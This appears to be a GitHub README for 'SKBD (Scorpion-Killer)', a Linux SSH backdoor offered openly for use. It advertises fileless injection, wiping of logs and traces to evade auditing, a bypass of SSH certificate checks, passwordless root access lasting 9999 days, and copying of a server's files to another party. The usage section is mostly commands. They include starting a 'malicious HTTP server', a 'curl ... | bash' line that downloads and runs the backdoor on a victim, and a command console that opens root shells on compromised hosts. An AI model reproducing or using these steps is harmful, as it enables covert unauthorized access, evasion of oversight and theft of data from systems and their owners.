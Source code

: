 # SKBD (Scorpion-Killer)

![alt text](pic/logo.png)

**Linux-SSH Backdoor Injection Persistence Control Tool**

1. **Fileless Automated Backdoor Injection**  
   Using a `curl` request, this tool automatically performs the backdoor injection without leaving any significant traces on the system.

2. **Automatic Log and Trace Removal**  
   During the backdoor injection process, the tool automatically clears related logs and traces, ensuring no alerts are triggered during monitoring and auditing.

3. **CA Certificate Bypass**  
   By utilizing the CA certificate mechanism, this tool can bypass SSH server certificate validation checks, further enhancing stealth and persistence.

4. **27-Year SSH Backdoor**  
   The injected SSH backdoor can last for up to 27 years (9999 days), ensuring long-term access and control over the system.

5. **Multiple Passwordless Users for SSH Access**  
   Supports multiple SSH users who can log in independently without passwords, providing increased flexibility and stealth.

6. **Portability and Data Migration**  
   The tool allows you to package all the server’s machine files and send them to another user. This enables seamless migration, allowing for control to be deployed across different systems.

---

# Usage

**PS: This script must be executed with ROOT privileges.**

## skbd.py : Server (API)

`$ python3 skbd.py -h`

![alt text](pic/image.png)

## skbdexec.py : Server (Command Execution)

`$ python3 skbdexec.py`

![alt text](pic/image-1.png)

## skbd.sh : Client (Load skbd backdoor)

`$ ./skbd.sh`

![alt text](pic/image-2.png)

---

# Examples:

1. Start a malicious HTTP server

`$ python3 -m http.server 8181`

![alt text](pic/image-4.png)

2. Start the server (API):

`$ python3 skbd.py`

![alt text](pic/image-5.png)

> endpoint: https://192.168.0.115:9191

3. Start the server (Command execution):  
   **PS**: `skbdexec.py` can be started at any time.

`$ python3 skbdexec.py`

![alt text](pic/image-6.png)

4. Inject the skbd backdoor into the client

`$ curl http://<IP>:<PORT>/skbd.sh|bash -s -- -e 'https://<IP>:PORT' `

![alt text](pic/image-3.png)

5. Access the client's shell from the server (Command execution):

`SKBD # info`

![alt text](pic/image-7.png)

`SKBD # use 1`

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# show`

![alt text](pic/image-8.png)

```
+-------------------------------------------+-------------------------------------------+
| Configuring Machine: f6b50eecbeca4b61a7e8932c3e9cf9f2    |
+-------------------------------------------+-------------------------------------------+
| Parameter          | Value                            |
+-------------------------------------------+-------------------------------------------+
| users              | root,postgres,map                 | (Editable) |
| ips                | 192.168.0.111,                    | (Editable) |
| sn                 | f6b50eecbeca4b61a7e8932c3e9cf9f2  | (Editable) |
+-------------------------------------------+-------------------------------------------+
```

This list displays the users (`root,postgres,map`) available for SSH login on the client. You can change the logged-in user session by using the command `set user map`.

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# set user root`

Final login parameters:

```SH
+-------------------+-------------------+
| user: root        |
| ip: 192.168.0.111 |
| port: 22          |
+-------------------+-------------------+
```

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# run`

![alt text](pic/image-9.png)